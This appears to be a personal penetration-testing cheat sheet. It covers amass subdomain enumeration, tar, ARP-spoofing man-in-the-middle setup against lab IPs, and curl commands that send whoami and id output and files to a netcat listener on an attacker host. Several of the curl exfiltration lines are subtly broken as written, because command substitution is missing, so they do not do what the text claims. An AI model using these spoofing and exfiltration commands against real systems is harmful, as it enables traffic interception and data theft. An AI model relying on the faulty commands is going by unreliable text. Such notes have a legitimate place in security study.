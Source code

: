 # Commands

## amass

Amass is a tool which helps us perform external asset discovery using open source information gathering and active reconnaissance techniques.

This package contains several wordlists for performing DNS name alterations and brute forcing.

### enum

Amass uses different *subcommands*. Here are some ways we can use the *enum* subcommand.

`sudo amass enum -d elsfoo.com` | the -d flag is to specify the domain

`sudo amass enum -passive -d elsfoo.com` | the -passive flag specifies only run passive techniques

`sudo amass enum -d elsfoo.com -src -ip -dir ./amass_1` | the -src flag gives us the source of the data | the -ip flag gives us the IP address of the subdomain | the -dir flag lets us specify the directory to save the scan results

`sudo amass enum -d elsfoo.com -src -ip -brute -dir ./amass_brute` | the -brute flag launches a brute-force attack of sub-domains

### viz

Another *subcommand* is the *viz* subcommand which lets us generate different types of report to visualize the amass scans.

`sudo amass viz -dir ./amass_1 -d3` | the -d3 flag specifies a d3 report which uses html

## tape archive

*tar* is used to archive files and directories. It does not have to be compressed but it can be.

Archive files are simply a collection of files which have been archived into one file - they can be unarchived back into their original form.

`sudo tar -cvf file.tar *` | the -c flag creates an archive | the -v flag is for verbose output | the -f flag lets us specify the archive filename | the * wildcard specifies all the files in a directory

`sudo tar -xvf file.tar` | the -x flag specifies extract all the files to their original form

`sudo tar -zcvf file.tar` | the -z flag specifies compress the archive file using *gzip*

`sudo tar -zxvf file.tar` | this command decompresses and extracts the compressed and archived files

## arp spoof

Before we run a *man in the middle* attack, we need to configure our machine so traffic can be forwarded.

`echo 1 > /proc/sys/net/ipv4/ip_forward` | configures the machine to forward traffic

We can now spoof the machines we are targetting. One of these machines will be the gateway.

`sudo arpspoof -i eth0 -t 172.16.5.30 172.16.5.1`

`sudo arpspoof -i eth0 -t 172.16.5.1 172.16.5.30`

## curl

We can use *curl* to establish a connection to a remote machine. We will need to use a *netcat* listener on the machine we are connecting to.

`sudo curl http://192.168.56.101:53`

We can send the results of system commands which do not includ blank spaces in their results.

`sudo curl http://192.168.56.101:53/whoami`

If there will be reserved characters in the result, we can *base64* encode the data before sending it.

`sudo curl http://192.168.56.101:53/id|base64`

We can then decode the data.

`echo djKK81jsDT== | base64 -d` | the -d flag specifies decode

We can use *curl* to transfer files using the -T flag.

`sudo curl http://192.168.56.101:53/interesting_file.txt -T /tmp`

